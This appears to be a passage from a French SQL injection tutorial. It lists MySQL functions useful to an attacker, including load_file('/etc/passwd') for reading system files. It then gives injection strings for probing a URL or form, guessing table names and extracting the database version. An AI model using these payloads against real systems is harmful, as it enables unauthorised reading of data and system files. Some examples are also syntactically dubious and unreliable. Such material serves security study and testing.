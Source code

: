    - load_file() : cette fonction lit le contenu du fichier spécifié. Exemple : cette fonction lit le contenu du fichier spécifié :
```sql
SELECT load_file('/etc/passwd'); -- Renvoie le contenu du fichier /etc/passwd
```

   - user() : Cette fonction renvoie l'utilisateur utilisé pour la connexion actuelle à la base de données. Exemple :
```sql
SELECT user(); -- renvoie'root@localhost'
```

   - version() : Cette fonction renvoie la version actuelle de la base de données. Exemple :
```sql
SELECT version(); -- renvoie '8.0.26'
```

   - sleep() : cette fonction suspend la base de données pendant un certain nombre de secondes. Exemple :
```sql
SELECT sleep(5); -- Interrompre la base de données pendant 5 secondes
```

   - floor() : cette fonction renvoie le plus grand nombre entier qui n'est pas supérieur à la valeur spécifiée. Exemple : 
```sql
SELECT floor(3.14); -- renvoie 3
```

   - rand() : cette fonction permet de renvoyer un nombre aléatoire. Exemple :
```sql
SELECT rand(); -- renvoie 0.123456
```

2. **_Énoncés couramment utilisés dans les injections SQL_** 
   - Pour déterminer s'il existe un point d'injection : saisissez l'instruction suivante dans l'URL ou le formulaire pour voir si la page change. 
```sql
' and 1=1
# ou
' and 1=2
```
 

   - Deviner le nom de la table : saisissez l'instruction suivante dans l'URL ou le formulaire pour vérifier si la table admin existe. 
```sql
and 0<> (select count (*) from *)
# ou
and 0<> (select count (*) from admin)
```
 

   - Obtenir la version de la base de données : saisissez l'instruction suivante dans l'URL ou le formulaire pour voir si la version de la base de données peut être affichée. 
```sql
and 1= (select @@VERSION)
# ou
and 1= (select version())
```
 